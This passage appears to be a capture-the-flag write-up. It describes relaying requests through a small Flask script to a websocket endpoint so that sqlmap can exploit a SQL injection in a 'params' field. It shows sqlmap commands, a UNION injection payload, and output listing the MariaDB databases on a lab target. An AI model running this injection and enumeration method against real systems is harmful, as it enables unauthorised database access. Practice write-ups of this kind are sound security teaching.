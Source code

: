     
    if __name__ == "__main__":
        app.run(debug=True)
    

This will wait for a web request to `/`, and then initiate the websocket
connection. It will read the token, and then get the `params` parameter from
the request. Now it will send the injection over the websocket with the valid
token and the `params` set to the request parameter input, and return the
debug part (where the injection is). I’ll load the string to an Python object
using `json.loads`, and then pull the `debug` part to return.

Now I’ll run `sqlmap` through it. I’ll use a couple flags:

  * Some of the requests `sqlmap` will try to send will just generate no response from the server. `--timeout 3` will just give up after three seconds.
  * By default, `sqlmap` will assume a timeout is a failure somewhere else and try again. Adding `--ignore-timeouts` will have it treat this as a failure and move on, which is appropriate here.
  * Because I know from manual tests that UNION injection works, I’ll just have it do that with `--technique=U`.
  * `--batch` will just choose the default answers for any mid-exploitation prompts that come up.

It works:

    
    
    oxdf@parrot$ sqlmap -u http://127.0.0.1:5000/?params=1 --timeout 1 --ignore-timeouts --technique=U --batch
    ...[snip]...
    sqlmap identified the following injection point(s) with a total of 20 HTTP(s) requests:
    ---
    Parameter: params (GET)
        Type: UNION query
        Title: Generic UNION query (NULL) - 2 columns
        Payload: params=-6430 UNION ALL SELECT NULL,CONCAT(CONCAT('qpkxq','SrOjExfySLoPEhBWAdtuAgpEhBtKXFJUcLqNbCgr'),'qpxjq')-- mBxQ
    ---
    [20:15:41] [INFO] testing MySQL
    [20:15:41] [INFO] confirming MySQL
    [20:15:41] [INFO] the back-end DBMS is MySQL
    back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
    ...[snip]...
    

It’s not surprising that it found the injection. But now I can do normal
enumeration, like list the DBs by adding `--dbs`:

    
    
    oxdf@parrot$ sqlmap -u http://127.0.0.1:5000/?params=1 --timeout 1 --ignore-timeouts --technique=U -p params --batch --dbs
    ...[snip]...
    [20:17:15] [INFO] fetching database names
    available databases [3]:
    [*] crossfit
    [*] employees
    [*] information_schema
    ...[snip]...
    